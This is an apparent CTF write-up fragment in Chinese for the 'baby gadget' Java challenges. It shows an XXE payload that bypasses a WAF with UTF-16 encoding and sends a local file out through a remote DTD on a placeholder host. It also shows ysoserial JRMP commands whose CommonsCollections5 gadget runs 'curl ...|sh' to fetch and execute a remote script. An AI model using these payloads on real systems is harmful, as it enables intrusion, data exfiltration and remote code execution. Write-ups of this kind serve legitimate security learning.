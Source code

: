 ```java=
                    connection.getInputStream()));
            String line;
            while ((line = in.readLine()) != null) {
                result += line;
            }
        } catch (Exception e) {
            System.out.println("asd" + e);
            e.printStackTrace();
        }
        
        finally {
            try {
                if (in != null) {
                    in.close();
                }
            } catch (Exception e2) {
                e2.printStackTrace();
            }
        }
        return result;
    }

    public static void main(String[] args) throws Exception {
    }
}
```
### baby gadget v1.0's rrrevenge
同1的打法

### baby gadget v2.0
登陆处有xxe，提示读取hint，有waf，通过utf-16be绕，长度也有限制，用服务器外带
```
<?xml version="1.0" encoding="UTF-16" ?>
<!DOCTYPE users[
<!ENTITY % file SYSTEM "file:///hint.txt">
<!ENTITY % remote SYSTEM "http://xxx.xxx.xxx:xxx/a.dtd">
%remote;
%all;
]>

<user><number>aaa</number><name>&send;</name></user>
```
hint提示文件名，访问下载获得源码，ban了一些常用类的commons-collections反序列化。
想到强网杯的有个题，这没有ban JRMP ，所以直接通过JRMP打反序列化rce即可
`java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 23334 CommonsCollections5 "curl http://xxx.xxx.xxx:xxx/aa|sh"`
`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient xxx.xxx.xxx.xxx:xxx`
### baby gadget v2.0' revenge
同1做法
